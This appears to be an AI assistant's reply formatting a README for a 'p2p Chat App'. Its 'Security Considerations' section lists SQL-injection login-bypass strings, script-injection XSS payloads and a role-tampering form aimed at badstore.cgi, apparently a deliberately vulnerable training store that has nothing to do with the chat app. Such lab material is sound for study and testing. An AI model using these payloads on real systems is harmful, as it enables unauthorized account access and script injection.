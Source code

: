 To format your README file, you can use Markdown syntax to make it more readable. Here's an example of how you might structure it:

```markdown
# p2p Chat App

## Installation

To install the required packages, run the following command:

```bash
npm install
```

## Frontend

To run the frontend, use the following command:

```bash
npm run dev
```

## Backend

To start the backend, use the following command:

```bash
npm run start
```

## Security Considerations

### SQL Injection

#### Login to My Account
```sql
'or 1=1 or' admin' or 1=1# 
```

#### Supplier Login
```sql
admin' or 1=1# 
```

### Cross-site Scripting (XSS)

#### Password Reset
```html
</h2><script>alert(1);</script><h2> 
```

#### Supplier Upload Portal
```html
<img src=x onerror=alert(1);> 
```

#### Guestbook
```html
</h2><script>alert(1);</script><h2> 
```

### Publicly Available Directories

- `robot.txt` file
- `/supplier` directory

### Web Parameter Tampering

```html
?action=admin
<INPUT TYPE="hidden" NAME="role" VALUE="U"><INPUT TYPE="submit"
METHOD="POST" ACTION="http://{your ip address}/cgi-bin/badstore.cgi?action=register"
```

Remember to replace `{your ip address}` with the actual IP address if applicable.

Feel free to adjust the structure and formatting based on your preferences. Markdown allows you to create headings, code blocks, lists, and more to make your README clear and organized.

